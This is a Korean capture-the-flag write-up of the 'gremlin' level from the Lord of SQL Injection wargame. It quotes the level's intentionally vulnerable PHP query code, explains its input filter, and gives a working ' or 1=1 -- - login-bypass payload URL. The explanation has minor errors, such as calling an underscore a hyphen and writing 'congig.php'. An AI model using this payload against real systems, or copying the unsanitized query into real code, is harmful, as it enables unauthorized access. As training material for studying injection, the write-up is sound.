 # Lord of SQL Injection No.1 - gremlin
## 문제 출제 의도
가장 기초적인 SQL Injection을 통해 SQL을 이해, 제어가능 여부를 확인한다.
## 소스 코드 분석
+ 소스코드  
~~~
<?php  
    include "./config.php";  
    login_chk();  
    dbconnect();  
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");// do not try to attack another table, database!  
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
    $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";  
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id']) solve("gremlin");
    highlight_file(__FILE__);
?>
~~~
+ 소스 코드 분석  <hr>
    - < ?php 로 시작하고, 동시에 ?> 로 끝나는 것을 보아 php라는 것을 알 수 있다. 
    - include "./congig.php";  
      congig.php라는 분리된 파일을 외부에서 불러와 적용시킨다.
      이후 정의 한적 없는 사용자 정의 함수가 나오면 congig.php에 선언되어 있다고 추정할 수 있다.
      * **include**
      1. php의 include를 모른다면 다음 문서를 참고하자.
      2. <a href = "http://php.net/manual/kr/function.include.php">PHP: include - Manual</a>
    - login_chk();라는 함수는 로그인상태를 확인하는 함수라고 추정 가능하다.  
    - dbconnect();라는 함수는 데이터베이스와 연동하는 함수라고 추정 가능하다.  
    - if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!    
    prob, hyphon(-), period(.), parenthesis((,))등이 Get방식으로 입력받은 id에 있으면 No Hack이 출력되는 것을 알 수 있다.
    - if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
    prob, hyphon(-), period(.), parenthesis((,))등이 Get방식으로 입력받은 비밀번호에 있으면 No Hack이 출력되는 것을 알 수 있다.


    - **preg_match**
    1. php의 preg_match 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
    2. <a href ="http://php.net/manual/kr/function.preg-match.php">PHP: preg_match - Manual</a>
    ~~~
    int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags [, int $offset ]]] )
    ~~~  
    - pattern = 찾는값
    - subject = 값을 찾을 문자열
    - array &$matches = 존재할 경우 매치되는 문자열이 해당 배열의 0번지에 할당됨.
    - flag = 추가 옵션
    - offset = 처음 검색을 시작할 다른 위치를 지정할 수 있다.(바이트 단위)
    - preg_match 함수는 반환값으로 0 또는 1을 반환하는데 매치된 값이 있다면 1을 없다면 0 을 반환한다.
    - 따라서 /prob|_|\.|\(\)와 $_GET['id']또는 $_GET['ps']즉 입력 받은 값과 비교한다. 
    - 따라서 입력받은 아이디와 비밀번호에 prob, _ , . , ( , )중 하나라도 들어있으면 No Hack ~_~이 뜨고 문제 풀이에 실패한다.  
    ~~~
    $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id']) solve("gremlin");
    ~~~
    - $query = "select id from prob_gremlin;  
    데이터 베이스의 테이블중 prob_pro_gremlin 이라는 테이블의 데이터중 id에 해당하는 부분만 선택한다. 

    - where id='{$_GET[id]}' and pw='{$_GET[pw]}'"  
    id와 password가 입력값인 줄을 선택한다.
## 문제 해결
+ 풀이 방법 <hr>
    <p style ="font-size:20px;">WHERE 조건절 무력화</p>

    Get 방식으로 id,password를 받기 때문에 URL 다음에 다음과 같이 쿼리 스트링을 추가하면 된다. 
    ~~~
    http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' or 1=1 -- -
    ~~~  

    - 아이디를 비워두면 어떤 유효값도 where에 걸리지 않는다 따라서 그 뒤에 or 1=1 을 넣어 항상 참이 되게 만든다
    - 이후 password를 무시하기 위해 나머지를 주석처리 해준다. -- -
    - 따라서 결국 다음과 같은 쿼리문이 전송되어지는 것이다.
    ~~~
    select id from prob_gremlin where id='' or 1=1 -- -' and pw=''
    ~~~ 
  





    